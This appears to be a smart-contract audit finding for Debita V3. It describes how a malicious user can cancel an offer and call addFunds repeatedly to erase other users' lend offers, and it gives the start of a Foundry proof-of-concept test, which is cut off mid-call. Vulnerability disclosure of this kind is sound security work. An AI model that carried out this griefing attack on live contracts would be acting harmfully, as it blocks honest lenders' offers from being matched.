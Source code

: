 ### Attack Path

1. malicious user create 2 lend offer
2. malicious user their cancel their latest lend offer via `DLOImplementation::cancelOffer`
3. malicious user call `DLOImplementation::addFunds`
4. repeat until other user lend offer written off the state of the contract

### Impact

calling `DebitaV3Aggregator::matchOffersV3` would be difficult because there are no way to query the address of the active offer via `DLOFactory` struct or via `DLOFactory::getActiveOrders`.
the only way for normal user or even bot to call `matchOffersV3` if said griefing is done is to manually check the emitted address of past transaction which is time consuming.

### PoC

add these code to `Debita-V3-Contracts/test/local/Loan/TwoLendersERC20Loan.t.sol`:

```js
    function test_PoC_griefingByDeletingOthersLendOffer() public {
        address user = makeAddr("user");
        address maliciousUser = makeAddr("maliciousUser");
        deal(AERO, user, 1000e18, false);
        deal(AERO, maliciousUser, 1000e18, false);

        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint256[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint256[] memory ratio = allDynamicData.getDynamicUintArray(1);

        // address[] memory acceptedPrinciples = allDynamicData.getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData.getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData.getDynamicAddressArray(1);

        // user create 3 lend orders
        vm.startPrank(user);
        AEROContract.approve(address(DLOFactoryContract), 100e18);
        ratio[0] = 5e17;

        // because setUp, user created offer start from index 2
        address lendOrderAddress2 = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            2000,
            6480 * 2, // max duration
            6480, // min duration
            acceptedCollaterals,
            AERO,
            oraclesPrinciples,
            ratio,
            address(0x0),
            5e18
        );
        address lendOrderAddress3 = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            2000,
            6480 * 2, // max duration
            6480, // min duration
            acceptedCollaterals,
            AERO,
```